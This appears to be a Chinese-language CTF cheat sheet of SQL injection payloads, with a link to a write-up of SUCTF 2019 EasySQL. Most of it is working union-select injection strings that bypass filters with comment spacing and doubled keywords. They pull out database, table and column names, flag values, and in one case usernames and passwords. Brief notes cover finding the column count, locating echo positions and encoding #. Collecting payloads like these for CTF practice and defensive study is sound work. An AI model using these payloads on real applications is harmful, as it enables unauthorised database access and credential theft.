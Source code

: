 堆叠注入：[SUCTF 2019\]EasySQL-CSDN博客](https://blog.csdn.net/gsumall04/article/details/133281048?ops_request_misc=%7B%22request%5Fid%22%3A%22170904326516800227490232%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170904326516800227490232&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-133281048-null-null.142^v99^pc_search_result_base1&utm_term=[SUCTF 2019]EasySQL&spm=1018.2226.3001.4187)

一些Payload

```
nss=2'/**/ununionion/**/select/**/1,2,(select/**/database())%23
nss=2'/**/ununionion/**/select/**/1,2,(select/**/group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema=database())%23
nss=2'/**/ununionion/**/select/**/1,2,(select/**/group_concat(Secr3t)/**/from/**/NSS_db.NSS_tb)%23
```



```
-1'/**/ununionion/**/select/**/1,2,group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema=database()/**/limit/**/1,1%23
```

```
-a'/**/union/**/select/**/(select/**/database())'

-a'/**/union/**/select/**/(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='test')'

-a'/**/union/**/select/**/(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='flag')'

-a'/**/union/**/select/**/(select/**/group_concat(flag)/**/from/**/test.flag)'
```

当2是回显时，

no=2 union/**/select 1,group_concat(username,passwd,data),3,4 from users where no=1#



过滤 or,用----------')'

过滤from,双写frroom

grrooup_concat(table_name) frroom infoorrmation_schema.tables where table_schema=database()#



如果是字符型的话

```
测试长度
?wllm=1’order//by//3%23 – 正常
?wllm=1’order//by//4%23 – 错误
– 测试长度为3

测试回显
?wllm=-1’union//select//1,2,3%23 # 2,3回显位置
```

注意，#用%23代替
